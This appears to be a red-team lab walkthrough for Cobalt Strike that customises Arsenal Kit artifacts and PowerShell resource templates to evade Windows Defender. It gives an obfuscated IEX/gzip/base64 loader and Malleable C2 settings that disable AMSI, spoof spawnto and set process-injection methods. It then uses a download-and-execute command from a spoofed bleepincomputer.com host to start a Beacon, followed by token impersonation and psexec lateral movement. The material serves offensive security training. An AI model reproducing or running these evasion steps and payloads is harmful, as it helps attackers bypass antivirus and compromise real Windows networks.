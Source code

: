 # AV Evasion Attack

## Artifacts <a href="#artifacts" id="artifacts"></a>

1. Launch Visual Studio Code.
2. Go to **File > Open Folder** and select _C:\Tools\cobaltstrike\arsenal-kit\kits\artifact_.
3. Navigate to _src-common_ and open _patch.c_.
4.  Scroll to line \~45 and modify the _for_ loop. This is for the svc exe payloads.

    ```c
    x = length;
    while(x--) {
      *((char *)buffer + x) = *((char *)buffer + x) ^ key[x % 8];
    }
    ```
5.  Scroll to line \~116 and modify the other _for_ loop. This is for the normal exe payloads.

    ```c
    int x = length;
    while(x--) {
      *((char *)ptr + x) = *((char *)buffer + x) ^ key[x % 8];
    }
    ```
6. Save the changes (**File > Save**) and close the folder (**File > Close Folder**).
7. On the Windows taskbar, right-click on the Terminal icon launch Ubuntu.
8. Change the working directory.
   1. `cd /mnt/c/Tools/cobaltstrike/arsenal-kit/kits/artifact`
9. Run **build.sh** to build the new artifacts.
   1. `./build.sh mailslot VirtualAlloc 351363 0 false false none /mnt/c/Tools/cobaltstrike/custom-artifacts`
10. Open the Cobalt Strike client and load **artifact.cna** from _C:\Tools\cobaltstrike\custom-artifacts\mailslot_.

## Resources <a href="#resources" id="resources"></a>

1. If not already open from the previous task, launch Ubuntu from the Windows Terminal.
2. Change the working directory.
   1. `cd /mnt/c/Tools/cobaltstrike/arsenal-kit/kits/resource`
3. Run **build.sh** to build new resources.
   1. `./build.sh /mnt/c/Tools/cobaltstrike/custom-resources`
4. If not already open from the previous task, launch Visual Studio Code.
5. Go to **File > Open Folder** and select _C:\Tools\cobaltstrike\custom-resources_.
6. Select **template.x64.ps1**.
7. Rename the _func\_get\_proc\_address_ function on line 3 to _get\_proc\_address_.
8.  Rename the _func\_get\_delegate\_type_ function on line 10 to _get\_delegate\_type_.

    > Use **Edit > Replace**.
9.  Scroll to line 32 and replace it with:

    ```powershell
    $var_wpm = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((get_proc_address kernel32.dll WriteProcessMemory), (get_delegate_type @([IntPtr], [IntPtr], [Byte[]], [UInt32], [IntPtr]) ([Bool])))
    $ok = $var_wpm.Invoke([IntPtr]::New(-1), $var_buffer, $v_code, $v_code.Count, [IntPtr]::Zero)
    ```
10. Save the changes (**File > Save**).
11. Select **compress.ps1**.
12. Use Invoke-Obfuscation to create a unique obfuscated version, or try the following:

    ```powershell
    SET-itEm  VarIABLe:WyizE ([tyPe]('conVE'+'Rt') ) ;  seT-variAbLe  0eXs  (  [tYpe]('iO.'+'COmp'+'Re'+'S'+'SiON.C'+'oM'+'P'+'ResSIonM'+'oDE')) ; ${s}=nEW-o`Bj`eCt IO.`MemO`Ry`St`REAM(, (VAriABle wYIze -val  )::"FR`omB`AsE64s`TriNG"("%%DATA%%"));i`EX (ne`w-`o`BJECT i`o.sTr`EAmRe`ADEr(NEw-`O`BJe`CT IO.CO`mPrESSi`oN.`gzI`pS`Tream(${s}, ( vAriable  0ExS).vALUE::"Dec`om`Press")))."RE`AdT`OEnd"();
    ```
13. Save the changes (**File > Save**).
14. Open the Cobalt Strike client and load **resources.cna** from _C:\Tools\cobaltstrike\custom-resources_.

## Malleable C2 <a href="#malleable-c2" id="malleable-c2"></a>

1. Open a new PowerShell window in Terminal.
2.  SSH into the team server VM.

    1. ssh attacker@10.0.0.5

    > The password is Passw0rd!.
3. Move into the profiles directory.
   1. cd /opt/cobaltstrike/profiles
4. Open **default.profile** in a text editor (e.g. vim or nano).
5.  Add the following stage block:

    ```c2profile-nocolor
    stage {
       set userwx "false";
       set module_x64 "Hydrogen.dll";  # use a different module if you like
       set copy_pe_header "false";
    }
    ```
6.  Add the following post-ex block:

    ```c2profile-nocolor
    post-ex {
      set amsi_disable "true";
      set spawnto_x64 "%windir%\\sysnative\\svchost.exe";
      set obfuscate "true";
      set cleanup "true";

      transform-x64 {
          strrep "ReflectiveLoader" "NetlogonMain";
          strrepex "ExecuteAssembly" "Invoke_3 on EntryPoint failed." "Assembly threw an exception";
          strrepex "PowerPick" "PowerShellRunner" "PowerShellEngine";

          # add any other transforms that you want
      }
    }
    ```
7.  Add the following process-inject block:

    ```c2profile-nocolor
    process-inject {
      execute {
          NtQueueApcThread-s;
          NtQueueApcThread;
          SetThreadContext;
          RtlCreateUserThread;
          CreateThread;
      }
    }
    ```
8. Save the changes.
9.  Restart the team server.

    1. `sudo /usr/bin/docker restart cobaltstrike-cs-1`

    > If the container fails to restart properly use sudo /usr/bin/docker logs cobaltstrike-cs-1 to see the profile errors.

## Testing <a href="#testing" id="testing"></a>

1. Build new payloads
   1. Go to **Payloads > Windows Stageless Generate All Payloads**
   2. Folder: C:\Payloads
2. Host a 64-bit PowerShell payload.
   1. Go to **Site Management > Host File**
   2. File: _C:\Payloads\http\_x64.ps1_
   3. Local URI: /test
   4. Local Host: www.bleepincomputer.com
3. Switch to [Workstation 1](https://labclient.labondemand.com/Instructions/23bb360c-8241-461c-b058-d1859d8ee6c0) and login with Passw0rd!.
4. Open a PowerShell window.
5.  Verify that Defender's Real-Time Protection is enabled.

    1. (Get-MpPreference).DisableRealtimeMonitoring

    > DisableRealtimeMonitoring should return as False.
6.  Download and invoke the PowerShell payload.

    ```powershell
    iex (new-object net.webclient).downloadstring("http://www.bleepincomputer.com/test")
    ```
7. Switch back to [Attacker Desktop](https://labclient.labondemand.com/Instructions/23bb360c-8241-461c-b058-d1859d8ee6c0) and a new Beacon should be checking in.
8. From the new Beacon, impersonate a local admin to _lon-ws-1_.
   1. `make_token CONTOSO\rsteel Passw0rd!`
9. Verify that Defender's Real-Time Protection is enabled on the target.
   1. `remote-exec winrm lon-ws-1 (Get-MpPreference).DisableRealtimeMonitoring`
10. Change the spawnto for the service payload.
    1. `ak-settings spawnto_x64 C:\Windows\System32\svchost.exe`
11. Move laterally to _lon-ws-1_.
    1. `jump psexec64 lon-ws-1 smb`
